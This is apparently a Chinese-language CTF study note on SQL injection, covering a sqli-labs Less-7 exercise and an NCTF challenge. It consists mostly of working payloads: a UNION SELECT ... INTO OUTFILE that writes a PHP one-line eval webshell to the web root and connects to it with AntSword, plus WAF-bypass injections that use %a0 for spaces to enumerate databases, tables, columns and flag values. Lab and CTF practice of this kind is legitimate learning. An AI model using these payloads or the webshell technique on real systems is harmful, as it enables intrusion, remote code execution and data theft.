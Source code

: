 一句话木马导入

```
?id=1')) union select 1,2,'<?php @eval($_post["a"])?>' into outfile "c:\\wamp\\www\\sqllib\\Less-7\\1.php" --+
```



然后使用蚁剑进行连接，密码为a







### 南京邮电大学晨跑打卡NCTF



#### 知识点学习

发现过滤了空格，直接用%0a替代空格，%a0and%a0%271%27=%271替代--+进行代码闭合，或者%a0||%27替代--+

%27替代'

而且发现waf限制--+和#



#### 官方WP

```
id=0'%a0union%a0select%a0'1','2','3','4
```

```
id=0'%a0union%a0select%a01,database(),3,'4# 当前数据库：cgctf
```

```
id=0'%a0union%a0select%a01,(select%a0group_concat(schema_name)%a0from%a0information_schema.schemata),3,'4    #查询所有数据库
```

```
id=0'%a0union%a0select%a01,(select%a0group_concat(table_name)%a0from%a0information_schema.tables%a0where%a0table_schema='cgctf'),3,'4    #查询cgctf的所有表：pcnumber
```

```
id=0'%a0union%a0select%a01,(select%a0group_concat(column_name)%a0from%a0information_schema.columns%a0where%a0table_name='pcnumber'),3,'4    #查询pcnumber表的所有字段，存在flag列
```

```
id=0'%a0union%a0select%a01,(select%a0group_concat(flag)%a0from%a0pcnumber),3,'4    #查询flag列的所有值
```



#### CSDNWP

%a0and%a0%271%27=%271替代--+和#
